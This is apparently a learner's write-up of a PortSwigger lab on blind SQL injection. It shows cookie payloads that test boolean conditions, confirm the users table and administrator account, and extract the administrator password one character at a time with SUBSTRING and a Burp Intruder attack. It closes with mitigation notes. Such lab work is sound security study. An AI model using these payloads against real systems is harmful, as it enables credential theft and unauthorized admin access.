

# Blind SQL Injection with Conditional Responses

## Goal:
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a `Welcome back` message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

---

## Process

### 1. Intercepted the GET Request and Sent to Repeater (using Burp Suite)
```http
GET /filter?category=Pets HTTP/2
```
### 2. Modify Tracking ID to test single boolean condition and infer result

**Injected Payload:**
```sql
' AND '1'='1
```

**The Traking ID becomes:**
```http
Cookie: TrackingId=<ID>'+AND+'1'='1;
```
This returned a "Welcome back" message.

**Injected Payload:**
```sql
' AND '1'='2
```
**The Traking ID becomes:**
```
Cookie: TrackingId=<ID>'+AND+'1'='2;
```
This did not return "Welcome back" message. This demostrates how a single boolean condition can be tested to infer the result.

### 3. Modify Tracking ID to verify Table Name

```sql
' AND (SELECT 'a' FROM users LIMIT 1)='a
```

This returned a "Welcome back" message, confirming that there is a table called `users`.

Here `LIMIT 1` is used to ensure the subquery returns exactly one row.

`' AND (SELECT 'a' FROM users)='a` will select more than one row which might cause an error. SQL doesn't allow a **scalar subquery** (one used in a comparison like = 'a') to return multiple rows. 

### 4. Modify Tracking ID to verify username

```sql
' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

This returned a "Welcome back" message, confirming there is a user called `administrator`

### 5. Identify length of password and Send to Intruder

```sql
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

Tried several numbers to identify the password length, until I infered that the password length was 20.

```sql
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=20)='a
```

Sent to Intruder

### 5. Retrieve the password of 'administrator' using Sniper Attack

```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

`SUBSTRING(password, 1, 1)` means:

Syntax: `SUBSTRING(string_expression, start_position, length)`

- `SUBSTRING` is a SQL string function used to extract a portion of a string.
- `password` is the string to extract from, 
- start at position `1` (SQL uses 1-based indexing), 
- extract `1` character.

So this returns the first character of the password field.

Select `Add §` button from the intruder, after selecting `a`

```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§`
```

From Payload tab, specify
Payload type: simple list
Payload configuration: a-z and 0-9 (assuming no capital letters)

In settings, Grep-match for the value `Welcome back`

Start attack  (Sniper attack)

This returned a "Welcome back" message only for character `m`, indicating that `m` is the first character of the password.



Repeated the process for second character:
```sql
' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§`
```

This returned a "Welcome back" message only for character `i`, indicating that `i` is the second character of the password.

Continued this process for all 20 characters, and retreived the final password.

Logged in as the administrator using the password retrived.

---

## Mitigation

- Use parameterised queries (prepped statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#how-to-fix-this-vulnerability)

- Restrict database permissions: The application should connect using a low-privilege database account with access only to the necessary tables and operations. It should not have access to sensitive operations like `SELECT * FROM users`, `DROP`, `UPDATE`, `CREATE`, etc., unless absolutely required.

---

## Reflection

Learned how password attack using `AND 1=1` works.

---

## Notes

